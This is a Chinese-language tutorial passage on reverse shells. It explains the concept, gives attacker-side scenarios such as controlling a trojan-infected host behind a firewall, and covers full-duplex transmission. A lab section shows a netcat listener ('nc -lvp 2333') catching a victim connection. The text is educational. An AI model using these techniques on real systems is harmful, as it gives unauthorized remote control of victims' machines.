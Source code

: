 ## 反弹shell

反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。

攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

深入理解文件描述符和重定向才能更好弄懂反弹shell

## 场景

1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。 

2.目标机器的ip动态改变，你不能持续控制。

3.建立一个服务端让恶意程序主动连接，持久化。

4.防火墙受限，不能由外向内建立连接(不接受外部连接)。(通过传输层协议的全双工通信实现交互)

备注：

全双工传输 (Full－Duplex Transmissions)

交换机在发送数据的同时也能够接收数据，两者同步进行，这好像我们平时打电话一样，说话的同时也能够听到对方的声音。目前的交换机都支持全双工。

单工数据传输只支持数据在一个方向上传输；在同一时间只有一方能接受或发送信息，不能实现双向通信，举例：电视，广播，计算机与打印机之间的通信是单工模式。

半双工数据传输允许数据在两个方向上传输,但是,在某一时刻,只允许数据在一个方向上传输,它实际上是一种切换方向的单工通信；在同一时间只可以有一方接受或发送信息，可以实现双向通信。举例：对讲机。


维基百科的定义：

全双工（full-duplex）的系统允许二台设备间同时进行双向数据传输。一般的电话、手机就是全双工的系统，因为在讲话时同时也可以听到对方的声音。全双工的系统可以用一般的双向车道形容。两个方向的车辆因使用不同的车道，因此不会互相影响。

![](images/1.jpg)

## 实验

测试一：

攻击端： 

	[root@attacker]# nc -lvp 2333            //第一步
	Connection from victim_ip:38712
	docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
	        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
	        ether XXXXXXXXXX  txqueuelen 0  (Ethernet)
	        RX packets 0  bytes 0 (0.0 B)
	        RX errors 0  dropped 0  overruns 0  frame 0
	        TX packets 0  bytes 0 (0.0 B)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
	